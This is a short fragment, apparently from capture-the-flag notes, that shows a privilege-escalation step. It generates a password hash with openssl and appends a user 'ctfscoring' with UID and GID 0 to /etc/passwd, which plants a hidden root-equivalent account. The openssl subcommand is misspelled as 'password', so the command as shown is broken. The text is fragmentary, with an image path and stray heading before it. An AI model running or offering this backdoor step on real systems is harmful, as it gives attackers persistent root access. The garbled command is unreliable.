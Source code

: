 You can write the /etc/passwd file to

```bash
# Generate password hash
openssl password marbdawg
# Add a use of root group to /etc/passwd, with username ctfscoring and password marbdawg
echo 'ctfscoring:$1$0giYuYc1$DZRMYFpCPDVjuzAGo4z.s0:0:0:root:/root:/bin/sh' >> /etc/passwd
```